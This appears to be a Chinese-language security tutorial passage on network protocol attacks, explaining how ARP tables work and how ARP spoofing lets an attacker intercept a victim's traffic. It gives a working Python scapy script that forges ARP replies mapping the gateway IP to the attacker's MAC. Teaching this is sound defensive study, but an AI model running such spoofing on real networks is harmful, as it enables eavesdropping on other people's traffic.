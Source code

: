 # 网络协议攻击

## ARP攻击 ##

#### 原理： ####

---

每个主机都有一个ARP表，对应着ip和Mac地址的关系，如果是局域网内通信，局域网是二层的，局域网通信是依靠mac地址来寻找主机。当仅知道ip的情况下，就会根据ARP表中ip与mac地址的关系去获取mac地址；如果ARP表中没有记录，就会发送广播包询问，对方也会发送广播包回复。收到回复包之后就会更新ARP表。

由于主机更新ARP表是没有什么安全防护的，收到更新包就会更新ARP表，所以我们可以通过伪造发送ARP包的方式，将受害者的主机中的ARP表修改，若使得受害者ARP表中 攻击机的mac地址对应着网关ip，那么我们就可以在攻击机中窃听受害者主机的流量了。

这里攻击方式有两种：

### 1、向受害主机B发送ARP应答包，包内内容为 <font color="red">MAC地址为xxx的IP地址为xxx </font>###

这里红色字的就是我们需要伪造的点

#### 代码： ####

---

	from scapy.all import *

	gwIp = "192.168.58.1"                #网关ip
	targetIp = "192.168.58.130"          #受害者Ip
	targetMac = getmacbyip(targetIp)     #受害者MAC地址，通过scapy内置函数 getmacbyip获取，这个函数其实就是发送一个ARP请求广播包，询问指定的ip的mac地址
	selfIp = get_if_addr("eth0")         #本机ip
	selfMac = get_if_hwaddr("eth0")      #本机MAC地址
	
	arpPacket = Ether()/ARP()            #ARP包，二层，需要套一个Ether
	arpPacket[Ether].src = selfMac
	arpPacket[Ether].dst = targetMac     #Ether指定一下本机mac和目标mac
	
	arpPacket[ARP].hwsrc = selfMac       #源mac是攻击机Mac
	arpPacket[ARP].psrc = gwIp           #源ip是网关ip  这样就会伪造成 网关ip的mac地址就是攻击机
	arpPacket[ARP].hwdst = targetMac
	arpPacket[ARP].pdst = targetIp
	arpPacket[ARP].op=2                  #op为1是请求包 2是应答包
	
	sendp(arpPacket)

抓包：

![](./NetprotocolAttack/1.png)
